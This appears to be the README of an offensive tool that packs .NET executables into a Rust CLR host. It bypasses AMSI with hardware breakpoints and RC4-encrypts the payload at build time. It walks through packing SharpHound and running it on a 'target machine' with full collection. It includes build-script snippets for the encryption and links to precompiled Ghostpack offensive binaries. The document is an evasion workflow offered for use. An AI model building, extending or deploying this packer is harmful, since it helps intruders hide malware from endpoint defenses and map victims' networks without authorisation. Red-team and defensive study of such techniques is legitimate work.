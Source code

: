 A tool to pack dotnet apps into a rust clr host using `clroxide`. Utilizing hardware breakpoints for patchless amsi bypass.
---
TODO: 
- remove rc4 encryption
- Add obfuscation on build

---
Preq
```
rustup target add x86_64-pc-windows-gnu
```

## Usage 

Building

```
./pack <dotnet exe path>
```

Run the packed exe.

```
C:\> .\packed.exe <Executable Args>
```

---

Example usage with SharpHound.exe

On your local machine pack SharpHound into the clrhost.
```
.\pack SharpHound.exe
```

Rename the binary if you want to.
```
mv packed.exe SharpHound-p.exe
```

On the target machine, use the same args you would with the dotnet app.

```
.\SharpHound-p.exe -c All --zipfilename example
```


---

### Build Encryption

Very simple build script to encrypt the dotnet binary.

build.rs
```rust
// Create the key 
    let key = generate_random_string(256);

    // ...
// Encrypt the payload
    let file = fs::read("src/unencrypted").unwrap();
    let mut cipher = crypto::rc4::Rc4::new(key.as_bytes());
    let mut o = file.clone();
    cipher.process(&file[..], &mut o);
    let _ = fs::write("src/encr", o);
```

main.rs
```rust
// Include the encrypted dotnet binary
let buffer = include_bytes!("encr");
```


### Recommended Binaries
This list of dotnet bins have been tested and work great.
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/tree/master/dotnet%20v4.8.1%20compiled%20binaries

---


### References
Thanks given to
https://github.com/yamakadi/clroxide
https://github.com/joaoviictorti/rustclr
https://github.com/trickster0/OffensiveRust

